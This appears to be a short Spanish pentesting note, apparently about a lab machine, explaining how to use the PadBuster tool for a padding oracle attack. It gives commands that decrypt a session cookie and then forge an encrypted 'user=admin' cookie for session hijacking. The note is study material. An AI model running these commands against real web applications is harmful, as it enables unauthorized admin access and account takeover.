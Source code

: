 Este es un [script](https://github.com/AonCyberLabs/PadBuster) en perl para la automatizacion de [[Padding Oracle Attack]].

Una vez que tengamos la herramienta solo basta con apuntar a la web  y unos parametros para saber si es vulnerable.

	padbuster http://10.10.10.18/login.php cookie-session 8 -cookie "auth=cookie-session" -encoding 0

-8 *Numero de bloques del cifrado (descubrir por fuerza bruta)*

En caso de ser vulnerable se nos indicara por medio de una tabla, una vez iniciado estara intentando desencriptar los bloques en base a los bytes para saber como se esta computando dicho mensaje o bien la cookie-session.

	cookie-session = user=s4tisfacti0n

Y una vez sabiendo como se computa y que es lo que contiene la cookie-session podemos modificarlar a nuestro criterio y generar una nueva cookie-session utilizando el mismo algoritmo de encriptacion.

	padbuster http://10.10.10.18/login.php cookie-session 8 -cookie "auth=cookie-session" -encoding 0 -plaintext "user=admin"

Con esto obtendremos una cookie-session del usuario admin y aplicar un [[Cookie Hijaking]].




